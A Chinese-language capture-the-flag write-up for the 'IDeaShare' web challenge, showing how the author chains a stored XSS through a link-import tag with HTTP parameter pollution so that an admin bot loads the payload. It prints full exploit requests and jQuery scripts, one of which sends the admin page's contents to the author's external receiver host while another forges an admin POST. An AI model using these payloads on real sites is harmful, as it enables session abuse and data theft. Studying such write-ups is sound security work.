





# IDeaShare

## 题目描述

> A place to share your IDeas with your friends!
>
> Try to win the best IDea competition but be wary a strong force prevents any cheating.
>
> Good luck you will need it!

题目地址(2018.10.31仍可正常访问)：[IDeaShare](https://arcade.fluxfingers.net:1818/)

访问题目地址发现是一个分享想法的平台，用户登录后可以保存自己的想法，将保存的想法分享以后，管理员会进行查看，如果分享的想法被管理员评价为`Best Idea`,就会赢得`BEST IDEA COMPETITION`

## 解题思路

访问题目时，响应头中存在这样的字段`X-XSS-Protection: 0`,再加上知道管理员将会访问提交的想法，所以很容易想到构造XSS。但首先提交的想法中对许多关键字进行了过滤(诡异的过滤规则)，其次直接访问分享的想法，也并不能看到解析生效的内容，测试中发现第二个问题可以通过HTTP参数污染来进行绕过。

## 解题过程

### 构造XSS

首先我们在记录想法的文本框中输入想法，这里的过滤规则非常诡异，但link标签没有被过滤，输入下面的内容，可以成功保存，没有被拦截：

```html
<link/rel=import href=https://https.zer0b.com/BlueLotus_XSSReceiver/myjs/tester.js>
```

然后我的用户id是304，所以访问下面的url地址可以看到分享的内容，测试到tester.js中的内容被执行了

```http
https://arcade.fluxfingers.net:1818/?page=view&raw&owner=304&pad=1
```

以上是XSS的部分的利用过程，但其实这个利用过程是有一些限制的：

* link标签的href属性必须引用https的资源，引用http地址时会有下面这样的提示说不安全，被阻止

  

  所以利用时最好有自己的域名，并启用https,这里我使用了`let's encrypt`设置证书(免费)

* 因为link标签引用了我们自己编写的js文件，所以我们存放js的服务器需要设置`Access-Control-Allow-Origin`头才可以使资源被正常引用，如果未设置的话报错如下，可以看到跨域引用资源被禁止了

  对nginx服务器来说，config文件中增加以下配置就可以启用跨域资源共享了

  ```nginx
    add_header Access-Control-Allow-Origin *;
    add_header Access-Control-Allow-Methods 'GET, POST, OPTIONS';
    add_header Access-Control-Allow-Headers 'DNT,X-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization';
  ```

### 利用HTTP参数污染



分享以后的想法会出现在这样的列表中，管理员会访问这个列表中的地址查看并评估我们的想法，列表中的url地址如下所示：

```html
   <a href=?page=view&owner=304&pad=3>IDea Number 3</a>
```

很明显，和前面我们构造的XSS地址格式相对比，这里缺少了一个**raw**参数，所以管理员进行访问时，看到并不是我们提交的raw格式的内容，提交的内容没有被浏览器解析，无法触发XSS

因为这个地方的url格式与我们的XSS利用地址只差了一个raw参数，所以猜测存在HTTP参数污染，利用burp构造这样的请求包(**直接在浏览器地址栏中输入%26会被转义，无法生效**)：

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 110
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

idea=%3Clink%2Frel%3Dimport+href%3Dhttps%3A%2F%2Fhttps.zer0b.com%2FBlueLotus_XSSReceiver%2Fmyjs%2Ftester.js%3E
```

注意这里的pad名字不是1，而是`1%26raw`,发现想法保存成功，然后继续使用下面的请求进行分享操作：

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 341
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1%26raw
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

share=&g-recaptcha-response=03AMGVjXhpe6wbk65KVTuzy2kfsLDT8duce0LwPj18Mec_vBg_6GvZJaBlETmfIoFRCTS-OpEk4KPm5FzfwEAQsfnSxbv_jj80RKuppequjTau-YmmNiy_Om3tbcuJUGGz3sxjMaF75uGQqVJCWpMKua-jBED5ahDSFab2ZP_Pomi9FxVFBcSxkfgYhiu9xpT7wLLbL43rO1SeExQGRBhBp9Yp5fnBfyLFB4b6KloNQ18QmVKBDXTajuUuZoFKM_gmRZs2bu5138xged-JNAuxdpOv7HLoSLpS7ukB0R_REGv5HlQULAofOQs
```

分享成功，在分享列表中发现如下名字的IDea


并且它的url地址是这样的，&符号虽然被转义了，但并不影响访问，这样admin访问这个链接将会触发XSS

```html
<a href=?page=view&owner=304&pad=1&amp;raw>IDea Number 1&amp;raw</a> 
```

**ps:参数污染这个地方也做了相应过滤，所以是没有办法在这里直接构造利用js的*

### 获取flag

在最开始的tester.js中使用了XSS平台的地址，分享后发现收到了访问请求，但并没有收到cookie



查看Cookie发现被设置为了httpOnly，js无法对其进行读写，所以后台无法收到cookie



前台页面中我们发现了admin页面的地址，发现只有管理员才能访问，所以修改利用脚本，回传admin页面的内容，利用脚本内容如下：

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.get("/?page=admin",async=false,function(result){
        $.post(xss_url,data="admin_content="+result,async=false);
    });
</script>
```

于是在XSS平台中可以收到包含页面内容的请求，admin页面中最重要的是下面这样一个form表单，用来设置winner的Id

```html
<form method="POST" action="?page=admin"> 
    <div class="form-group"> 
        <label for="password">Winner ID</label> 
        <input type="text" name="userid" class="form-control" /> 
    </div> 
    <button type="submit" class="btn btn-primary">Submit</button> 
</form> 
```

然后构造新的利用脚本如下，传入我的用户id，再次分享想法，将自己设置为winner

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.post("/?page=admin",{ userid:"304" },async=false);
</script>
```

最后返回前台，查看`BEST IDEA COMPETITION`的结果，得到flag


